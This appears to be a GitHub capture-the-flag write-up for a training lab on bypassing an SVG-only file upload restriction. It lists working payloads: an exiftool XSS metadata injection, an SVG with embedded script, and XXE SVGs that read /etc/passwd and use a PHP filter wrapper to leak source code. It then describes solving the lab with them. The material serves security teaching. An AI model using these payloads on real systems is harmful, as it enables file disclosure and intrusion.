 # Limited File Uploads

- The above exercise contains an upload functionality that should be secure against arbitrary file uploads.
 Try to exploit it using one of the attacks shown in this section to read "/flag.txt"

  `Hint`: Use an attack that can read files, and don't forget to check the page source!
- Try to read the source code of 'upload.php' to identify the uploads directory, and use its name as the answer. (write it exactly as found in the source, without quotes)
  
  `Hint`: Use a different payload to read source code.
---
## Possible Attacks

- `XSS` via comment injection:
  ```bash
  exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
  ```
- `XSS` via HTB.svg:
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
  <svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
      <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
      <script type="text/javascript">alert(window.origin);</script>
  </svg>
  ```
- `XXE` via `.svg` file:
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
  <svg>&xxe;</svg>
  ```
- `XXE` via `.svg` file with `PHP Wrappers`:
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
  <svg>&xxe;</svg>
  ```
---


We attempted to upload a simple `.png` image but we received the response with the message "Only SVG images are allowed":
![image](https://github.com/user-attachments/assets/36479000-2f72-4e4b-8893-99deeb070204)

Since only `.svg` extensions are allowed, we attempt to upload a basic `.svg` image:
![image](https://github.com/user-attachments/assets/c958b80b-f3c5-4f0c-ba94-362fc3033bca)
We discover that the page is displaying the image previously loaded by reading de source code from the backend:
![image](https://github.com/user-attachments/assets/120ad4f8-7ab8-42c7-93cc-d1904a5ecd0b)
![image](https://github.com/user-attachments/assets/eae9ef81-0d82-4812-89c1-34f48ad16fdf)



We performed a `XSS` attack via `.svg` upload:
![image](https://github.com/user-attachments/assets/1d6ebcf9-91d4-4f2f-b4e9-fed9a43451ab)
![image](https://github.com/user-attachments/assets/272a725a-ae20-4873-b278-32c3e253d3f1)
![image](https://github.com/user-attachments/assets/06358b9a-0a9e-48fa-b253-d6687a6899b7)

Then we performed a `XXE` attack in order to get the content of the `/flag.txt` file:
![image](https://github.com/user-attachments/assets/d9f1a541-f7fb-4ab3-97e7-dac94709eac5)
![image](https://github.com/user-attachments/assets/fa0b467f-639f-4f5d-97f1-fe024e57d6fa)


To read the source code of `upload.php` we perform a `XXE` attack via `PHP Wrapper`:
![image](https://github.com/user-attachments/assets/ff931621-7fcc-4075-9c62-a9153bc23c57)
![image](https://github.com/user-attachments/assets/7beb39b8-141b-46f0-8e7a-3404be459892)

Then we get de raw source code and solve the lab:
![image](https://github.com/user-attachments/assets/282bacad-57ed-49dd-aa1c-2c819661e353)







